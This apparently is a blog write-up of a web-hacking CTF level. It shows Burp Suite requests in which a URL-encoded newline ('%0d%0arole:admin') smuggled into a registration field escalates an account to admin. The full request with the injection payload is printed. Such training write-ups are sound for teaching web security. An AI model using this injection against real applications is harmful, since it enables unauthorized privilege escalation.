 ```yaml
---
layout: post
title: Infosec Institute CTF2 Practical Web Hacking Level 3
category: Web
tags: infosec
---
```


**Vulnerability** Data Validation; Parameter Delimiter
**Description:**

![screen]({{site.url}}/assets/Screen Shot 2015-07-16 at 11.51.03 PM.png)

## Write-up

For almost all levels I will be using Burpsuite. Burpsuite is an interception proxy that lets us modify the HTTP request
 / response by intercepting the data between the browser and the web server.
 
Let's first create a user account to test the functionality. Again, have Burp running so we can see the HTTP request.

When creating an account the HTTP request looks like this:

{% highlight text  %}
POST /ctf2/exercises/ex3.php HTTP/1.1
Host: ctf.infosecinstitute.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:31.0) Gecko/20100101 Firefox/31.0 Iceweasel/31.6.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://ctf.infosecinstitute.com/ctf2/exercises/ex3.php
Cookie: PHPSESSID=gdc668pjmpah42hegt7sa7igc3
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 89

user=A1A2A3A4&password=A1A2A3A4&lname=A1A2A3A4&email=A1A2A3A4%40aaa.com&register=Register
{% endhighlight %}

Login using the user we created, we can see that the role is 'normal', we need to change it to admin.

![screen1]({{site.url}}/assets/Screen Shot 2015-07-16 at 11.58.23 PM.png)

We can use Burp's Repeater to efficiently experiment with different parameters and values. Find the Registration request under
the Proxy tab -> HTTP History, right click and select 'Send to Repeater'.

![screen2]({{site.url}}/assets/Screen Shot 2015-07-17 at 12.34.08 AM.png)

After a while experimenting I noticed that adding a newline character would change the order of parameters.  

Registration HTTP request:

![screen3]({{site.url}}/assets/Screen Shot 2015-07-17 at 12.51.53 AM.png)

The newline character is url encoded '%0d%0a' in the password parameter. When I login, Account Details displays the following:  

![screen4]({{site.url}}/assets/Screen Shot 2015-07-17 at 12.42.02 AM.png)

This means that we have shifted the order of the account's attributes so, if we do our insertion after the lname parameter,
we should be able to inject the role attribute in the right spot.

HTTP request:

{% highlight text  %}
POST /ctf2/exercises/ex3.php HTTP/1.1
Host: ctf.infosecinstitute.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:31.0) Gecko/20100101 Firefox/31.0 Iceweasel/31.6.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://ctf.infosecinstitute.com/ctf2/exercises/ex3.php
Cookie: PHPSESSID=gdc668pjmpah42hegt7sa7igc3
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 89

user=A1A2A3A4&password=A1A2A3A4&lname=A1A2A3A4%0d%0arole:admin&email=A1A2A3A4%40aaa.com&register=Register
{% endhighlight %}

And... Level 3 complete.

![screen5]({{site.url}}/assets/Screen Shot 2015-07-17 at 1.34.12 AM.png)

## Links

* <http://ctf.infosecinstitute.com/ctf2/exercises/ex3.php>
